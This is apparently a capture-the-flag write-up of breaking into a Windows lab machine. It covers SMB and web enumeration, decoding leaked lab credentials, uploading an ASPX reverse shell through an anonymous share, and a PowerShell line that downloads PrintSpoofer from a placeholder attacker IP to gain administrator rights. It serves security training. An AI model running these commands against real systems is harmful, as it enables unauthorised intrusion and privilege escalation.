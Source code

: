 # Relevant 

##### Written: 23/10/2021

##### IP address: 10.10.72.53

======================

### User Flag

We first start off with a basic **nmap** scan on the target machine. This will only target the top 1000 ports.

```
sudo nmap -sC -sV -vv 10.10.72.53
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that the following ports are open:

**Port 80** - HTTP Web server

**Port 135** - Windows RPC

**Port 139** - SMB Server

**Port 445** - SMB Server

**Port 3389** - Microsoft Terminal Services

<br>

Let's first take a look at the HTTP server.

<img style="float: left;" src="screenshots/screenshot2.png">

Doing some manual enumeration of the website, I was unable to find anything of interest. The enumeration included checking of the source code and other low-hanging fruit such as the robots.txt file. Clickable elements within the webpage also only brought us to other websites that were not of use to us.

Next, I tried running a **Gobuster** directory scan on the website, but unfortunately I was unable to find any hidden directories.

<br>

Hitting a dead end, I decided to move on to enumerating the Samba server that is running on port 139 and 445.

At first, I tried to use a Samba enumeration tool called **enum4linux**, but it was unable to scan the server.

``` 
enum4linux 10.10.72.53
```

<img style="float: left;" src="screenshots/screenshot3.png">

<br>

Next, I tried using **smbclient** to list out the shares that were accessible on the server. This can be done with the `-L` tag.

```
smbclient -L 10.10.72.53
```

<img style="float: left;" src="screenshots/screenshot4.png">

Nice! Looks like there are a few shares that we can potentially log into if they have **anonymous access** enabled. I tried to log into all of the shares, but the only shares that I could successfully log into were the **IPC$** and **nt4wrksv** shares.

---

*Note: While enum4linux did not work, we can alternatively use nmap to run a smb enumeration scan on our target. The command is:*

``` 
nmap --script smb-enum-shares.nse -p445 <host>
```

---

While the **IPC$** share did not contain anything, the **nt4wrksv** share actually contained a **passwords.txt** file.

<img style="float: left;" src="screenshots/screenshot5.png">

<br>

I downloaded the text file onto my local machine. The contents are:

<img style="float: left;" src="screenshots/screenshot6.png">

Looks like the text file contained user passwords that were **base64-encoded**. After decoding them, we get the following user credentials:

* **Bob: !P@$$W0rD!123**

* **Bill: Juw4nnaM4n420696969!$$$**

With these credentials, I tried to log into the other Samba shares, but unfortunately they did not work. I also tried to log into the RDP service, but that was to no avail as well.

<br>

Hitting yet another dead end, I decided to run a **full nmap** scan. Perhaps there are other ports open on the machine that were not detected initially.

```
sudo nmap -sC -sV -vv -p- -T4 --defeat-rst-ratelimit 10.10.72.53
```

*The -T4 and the --defeat-rst-ratelimit tags are used to speed up the nmap scan greatly. We would not use these settings in a real-world application as it is very noisy. However, since we are scanning within a controlled CTF environment, we can go wild :)*

**Results:**

<img style="float: left;" src="screenshots/screenshot7.png">

Apart from the ports that we scanned earlier, there are now 3 new open ports that were detected:

**Port 49663** - Another HTTP server

**Port 49667** - Windows RPC

**Port 49669** - Windows RPC

<br>

What caught my attention was the HTTP server running on port **49663**. Let's take a look:

<img style="float: left;" src="screenshots/screenshot8.png">

This brings us to the same webpage as before.

However, running a **Gobuster** directory scan this time reveals a subdirectory called **/nt4wrksv**!

---

*Note: The **/nt4wrksv** entry is actually located at the very bottom of the dirbuster medium directory wordlist. Hence, I had to wait for Gobuster to completely go through the wordlist before it managed to detect this subdirectory! This was a lesson on patience as I would have normally assumed that there were no more potential results once Gobuster had gone through about half of the wordlist, and would have stopped the scan. Fortunately, I let Gobuster finish the scan this time.*

---

<img style="float: left;" src="screenshots/screenshot9.png">

As this directory has the same name as the Samba share from earlier, I assumed that directory is actually bringing us to the  share itself.

To test this, I tried visiting **/nt4wrksv/passwords.txt**:

<img style="float: left;" src="screenshots/screenshot10.png">

Sure enough, the passwords.txt file in the SMB share was displayed! This is great as that means we can potentially obtain RCE by uploading a file into the share and accessing it via the webpage. With this, we can open up a reverse shell and gain a foothold into the target machine.

<br>

<img style="float: left;" src="screenshots/screenshot11.png">

Using **Wappalyzer** on the main webpage, I found out that the framework that was being used was **Microsoft ASP.NET**. As such, we will have to upload an **ASPX reverse shell** file. I found such a file here: https://github.com/borjmz/aspx-reverse-shell

Using `smbclient`, I then uploaded the reverse shell into the **nt4wrksv** share. 

<img style="float: left;" src="screenshots/screenshot12.png">

Once that was done, I opened up a netcat listener and opened the reverse shell by accessing **/nt4wrksv/shell.aspx**.

<img style="float: left;" src="screenshots/screenshot13.png">

And we're in!

<br>

With that, we can obtain the user flag that is located in the **Desktop** of the user **Bob**:

<img style="float: left;" src="screenshots/screenshot14.png">

---

### Root Flag

Next, we have to find a way to escalate our privileges. Let's first check out the privileges that are enabled on our current account. We can do this with the `whoami /priv` command:

<img style="float: left;" src="screenshots/screenshot15.png">

Interesting! Looks like we have the **SeImpersonatePrivilege** privilege enabled. With this privilege enabled, we can use the **PrintSpoofer** tool to escalate our privileges. (https://github.com/dievus/printspoofer)

*More information on how PrintSpoofer works can be found here: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/*

<br>

We upload the PrintSpoofer tool onto our target machine by using Powershell to download it from a Python HTTP server that we have set up on our local machine. The command to download the tool is:

```
powershell "Invoke-WebRequest -UseBasicParsing <YOUR_IP_HERE>/PrintSpoofer.exe -OutFile PrintSpoofer.exe"
```

Once the tool is downloaded, we can simply run it with:

```
.\PrintSpoofer.exe -i -c cmd 
```

This will open up a cmd prompt with root privileges.

<img style="float: left;" src="screenshots/screenshot16.png">

And we have successfully escalated our privileges! With that, we can obtain the root flag that is located in the **Desktop** of the **Administrator** account:

<img style="float: left;" src="screenshots/screenshot17.png">

